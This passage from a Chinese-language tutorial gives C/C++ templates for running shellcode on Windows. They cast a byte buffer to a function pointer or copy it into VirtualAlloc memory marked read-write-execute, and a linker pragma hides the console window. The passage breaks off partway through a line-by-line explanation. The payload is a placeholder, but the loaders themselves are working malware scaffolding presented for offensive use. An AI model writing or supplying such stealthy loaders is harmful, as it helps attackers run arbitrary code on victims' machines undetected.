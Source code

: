 # C/C++加载shellcode

源码+shellcode直接编译：函数指针执行，内联汇编加载，申请动态内存

使用加载器加载shellcode

## 函数指针执行

```c_cpp
#include <stdio.h>
#include<windows.h>
# pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
//设置入口地址，不弹出黑窗口
unsigned char buf[] =
"shellcode";

void main()
{
	((void(*)(void)) & buf)(); //这是一个函数指针调用，将buf数组的地址强制转换为一个无参的函数指针，然后调用该函数。这个操作会执行buf中存储的Shellcode。
}
```

## 申请动态内存加载

```c_cpp
#include <windows.h>

// 定义Shellcode
unsigned char buf[] = "shellcode";

int main()
{
    PVOID Memory;
    // 动态分配虚拟地址空间
    Memory = VirtualAlloc(
        NULL,                           // 让系统选择内存基址
        sizeof(buf),                    // 分配的内存大小
        MEM_COMMIT | MEM_RESERVE,       // 提交并保留内存
        PAGE_EXECUTE_READWRITE          // 可读、可写、可执行
    );

    // 复制内存内容，将Shellcode复制到新分配的内存中
    memcpy(Memory, buf, sizeof(buf));

    // 执行Shellcode，将分配的内存地址转换为函数指针并调用
    ((void(*)())Memory)();
}
```

> 代码解释：
> 
> 1.定义Shellcode:
> 
> - `unsigned char buf[] = "shellcode";`: 声明一个字符数组buf，用于存储Shellcode。实际的Shellcode应该用对应的十六进制数值替代"shellcode"。
> 
> 2.分配内存:
> 
> - `PVOID Memory;`: 声明一个指向任何类型的指针Memory，用于存储分配的内存地址。
> 
> - `Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);`: 调用VirtualAlloc函数分配虚拟内存：
>   ```